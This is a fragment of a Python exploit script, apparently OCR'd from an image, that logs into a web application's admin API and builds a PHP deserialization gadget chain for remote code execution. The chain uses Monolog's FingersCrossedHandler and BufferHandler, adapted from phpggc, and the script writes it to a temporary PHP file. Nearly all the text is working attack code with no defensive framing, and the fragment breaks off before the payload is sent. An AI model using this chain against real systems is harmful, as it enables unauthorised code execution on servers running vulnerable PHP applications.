 ```python

creds = {
    "username": "admin",
    "password": admin_password
}

print(f"[*] Logging in...")
r = sess.post(f"http://{url}:{port}/admin/api/auth/login", data=creds)


print(f"[*] Generating serialized payload...")


# gadget.php
gfh = NamedTemporaryFile(delete=False, suffix='.php')
gadget_body = b"""<?php

namespace Monolog\Handler 
{


    # RCE gadget (phpggc) https://github.com/ambionics/phpggc/blob/3dd04666dc01c01d41d68f5419576ca6054ced9c/gadgetchains/Monolog/RCE/6/gadgets.php

    class FingersCrossedHandler {
        protected $passthruLevel;
        protected $buffer = array();
        protected $handler;
    
        public function __construct($param, $handler)
        {
            $this->passthruLevel = 0;
            $this->buffer = ['test' => [$param, 'level' => null]];
            $this->handler = $handler;
        }
    
    }

    class BufferHandler
    {
        protected $handler;
        protected $bufferSize = -1;
        protected $buffer;
        # ($record['level'] < $this->level) == false
        protected $level = null;
        protected $initialized = true;
        # ($this->bufferLimit > 0 && $this->bufferSize === $this->bufferLimit) == false
        protected $bufferLimit = -1;
        protected $processors;

        function __construct($function)
        {
            $this->processors = ['current', $function];
        }
    }

}

"""
# write gadget temp file
gfh.write(gadget_body)


```